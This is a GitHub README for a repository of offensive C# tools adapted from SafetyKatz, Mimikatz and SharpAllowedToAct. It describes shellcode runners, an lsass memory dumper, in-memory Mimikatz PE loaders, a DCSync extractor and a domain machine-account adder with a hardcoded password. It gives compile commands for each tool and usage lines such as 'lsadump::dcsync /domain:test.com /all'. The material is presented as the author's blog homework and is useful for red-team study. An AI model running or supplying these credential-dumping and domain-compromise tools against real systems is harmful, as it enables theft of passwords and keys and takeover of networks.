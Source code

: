 # Homework-of-C-Sharp
C Sharp codes of my blog.

---

### Shellcode.cs

Use CreateThread to run shellcode.

### ShellcodeBase64.txt

Base64 of the shellcode(msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f csharp)

### ReadShellcode.cs

It will read ShellcodeBase64.txt and launch the shellcode.

---

### DumpLsass.cs

Source code is https://github.com/GhostPack/SafetyKatz

Remove some functions of the source code,only used of dumping lsass.exe to the current path.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe DumpLsass.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe DumpLsass.cs`


### SafetyKatz.cs

Use to run `sekurlsa::logonpasswords` and `sekurlsa::ekeys` on the minidump file of lsass.exe.

All code from https://github.com/GhostPack/SafetyKatz

I just modified a few lines of code so that it can be compiled by csc.exe.

Eg.

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe SafetyKatz.cs /unsafe`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe SafetyKatz.cs /unsafe`

---

### GzipandBase64.cs

Use to generate the KatzCompressed string in PELoaderofMimikatz.cs

Complie:

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe GzipandBase64.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe GzipandBase64.cs`

### PELoaderofMimikatz.cs

The source file is Casey Smith's PELoader.cs and the version of mimikatz is mimikatz 2.0 alpha (x64) release "Kiwi en C" (Aug 17 2015 00:14:48).

I change it to the new version(mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14).

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe PELoaderofMimikatz.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe /unsafe PELoaderofMimikatz.cs`

### DcsyncofMimikatz.cs

This is the dcsync mode extracted from Mimikatz.

The source code in KatzCompressed is https://github.com/3gstudent/test/blob/master/Mimkatz-dcsync.zip

You can use https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/GzipandBase64.cs to generate the KatzCompressed string.

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe DcsyncofMimikatz.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe /unsafe DcsyncofMimikatz.cs`

Usage:

`DcsyncofMimikatz.exe log "lsadump::dcsync /domain:test.com /all /csv" exit`

`DcsyncofMimikatz.exe log "lsadump::dcsync /domain:test.com /user:administrator /csv" exit`

---

### SharpMimikatz_x86.cs

Reference:Casey Smith's PELoader.cs

The source file is Casey Smith's PELoader.cs and the version of mimikatz is mimikatz 2.0 alpha (x64) release "Kiwi en C" (Aug 17 2015 00:14:48).

I change it to the new version(mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14).

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

This is a 32-bit version.

Complie:

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /platform:x86 SharpMimikatz_x86.cs`

or

`C:\Windows\Microsoft.NET\Framework\v3.5\csc.exe /unsafe /platform:x86 SharpMimikatz_x86.cs`

Usage:

`SharpMimikatz_x86.exe coffee exit`

### SharpMimikatz_x64.cs

Reference:Casey Smith's PELoader.cs

The source file is Casey Smith's PELoader.cs and the version of mimikatz is mimikatz 2.0 alpha (x64) release "Kiwi en C" (Aug 17 2015 00:14:48).

I change it to the new version(mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14).

The source code supprot 4.0 or later.

This code supprot 3.5 or later.

This is a 64-bit version.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 SharpMimikatz_x64.cs`

or

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe /unsafe /platform:x64 SharpMimikatz_x64.cs`

Usage:

`SharpMimikatz_x64.exe coffee exit`

### SharpPELoaderGenerater.cs

Use to generate SharpPELoader.cs

Modified by 3gstudent

Reference:Casey Smith's PELoader.cs

Usage:

`SharpPELoaderGenerater.exe <exe path>`

Eg.

`SharpPELoaderGenerater.exe mimikatz.exe`

SharpPELoaderGenerater will determine whether the exe is 32-bit or 64-bit and then generate the corresponding code.

More details:

《通过.NET实现内存加载PE文件》
  
---

 ### AddMachineAccountofDomain.cs
 
Reference:https://github.com/pkb1s/SharpAllowedToAct

This code is just part of SharpAllowedToAct.

It can be used to add a Machine Account(User:testNew,Password:123456789).

This code can be complied by csc.exe or Visual Studio.

Supprot .Net 3.5 or later.

Complie:

`C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe AddMachineAccountofDomain.cs /r:System.DirectoryServices.dll,System.DirectoryServices.Protocols.dll`

or

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AddMachineAccountofDomain.cs /r:System.DirectoryServices.dll,System.DirectoryServices.Protocols.dll`
 
 
 
 

